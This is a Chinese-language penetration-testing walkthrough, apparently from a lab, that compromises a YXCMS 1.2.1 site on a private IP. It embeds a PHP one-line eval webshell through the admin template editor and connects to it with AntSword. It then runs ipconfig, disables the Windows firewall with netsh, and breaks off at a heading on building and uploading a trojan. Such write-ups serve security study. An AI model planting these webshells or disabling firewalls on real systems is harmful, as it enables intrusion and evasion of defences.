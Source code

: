 

分辨出网站使用的是yxcms，尝试访问。

然后在公告信息中发现后台用户名和密码

![image-20220811142846156](./1.assets/image-20220811142846156.png)



根据提示成功进入管理后台，并发现网站版本为1.2.1

> 如果没有发现密码，可以通过探测 `beifen.rar` 检查网站版本号，然后到网上找该版本号存在的漏洞进行攻击。

![image-20220811143010076](./1.assets/image-20220811143010076.png)



在后台“前台模板”模块中发现可以编辑模板，模板通常可以自定义php文件，而如果可以自定义php文件直接就可以上一句话木马了。

![image-20220811143241513](./1.assets/image-20220811143241513.png)

![image-20220811143326582](./1.assets/image-20220811143326582.png)



## 渗透攻击

嵌入一句话木马`<?php @eval($_REQUEST[666])?>`，然后保存

![image-20220811143422502](./1.assets/image-20220811143422502.png)



上面御剑探测时没有探测到info.php在哪，所以到网上找一下yxcms的目录结构

`protected\apps\default\view\`

![image-20220811143650676](./1.assets/image-20220811143650676.png)

到蚁剑中右键 添加数据：

`http://192.168.220.138/yxcms/protected/apps/default/view/default/info.php`

![image-20220811144748232](./1.assets/image-20220811144748232.png)



到shell里看一下`ipconfig`

![image-20220811145021077](./1.assets/image-20220811145021077.png)

查看防火墙状态 `netsh advfirewall show allprofiles`

![image-20220811145156669](./1.assets/image-20220811145156669.png)

关闭防火墙 `netsh advfirewall set allprofiles state off`



### 制作并上传木马
